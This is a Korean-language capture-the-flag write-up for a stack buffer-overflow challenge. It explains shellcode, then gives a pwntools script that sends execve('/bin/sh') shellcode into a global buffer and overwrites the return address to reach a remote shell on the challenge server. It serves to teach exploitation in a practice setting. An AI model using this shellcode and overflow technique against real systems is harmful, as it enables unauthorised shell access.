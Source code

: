 ## 사전지식    
쉘코드. 
음..왠만한 사람들은 다 알거라 생각하지만    
나같은 늅늅이들은 그런거 모르니 간단하게 설명하자면   
시스템의 특정 명령을 실행하는 작은 사이즈의 프로그램(코드)다.   
보통 메모리에 쉘코드를 넣고 ret에 쉘코드가 저장된 메모리의 주소로 덮어 씌워 쉘을 실행시킨다.   
주로 관리자 권한의 쉘을 얻는 용도.   
구글링하면 다-나온다.   

## 풀이   
일단 아이다로 까보면 read함수를 통해 표준입력(0)으로 0x32만큼 입력받고   
다시 gets로 0x14크기의 s에 입력받도록 하는 코드다.   
이때 read함수를 보면 name이라는 전역변수에 저장하는 것을 알 수 있는데,    
다른 걸 살펴봐도 마땅히 flag을 얻을 만한 방법이 안보이니까...    
첫 번째 입력 때 name에 쉘코드를 입력하고,   
두 번째 입력 받을 때 ret까지 BOF를 일으키고 name의 주소를 넣어서 name안에 있는 쉘코드를 실행하게 하면 될 것이다.   
근데 늅늅이들은 '에 ret까지 어떻게 BOF를 일으켜요?'할 것이다.   
ida를 자세히 살펴보면 s의 크기는 0x14인걸 알수 있으니 0x14에 sfp크기, 4byte크기만큼   
더미값을 넣어서 BOF를 일으키면 된다.   


코드보자!    
```
from pwn import *
p=remote("ctf.j0n9hyun.xyz", 3003)
p.recvuntil("Name : ")
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
p.sendline(shellcode)
p.recvuntil("input : ")
payload = "A"*24
payload += p32(0x804A060)
p.sendline(payload)
p.interactive()
```  



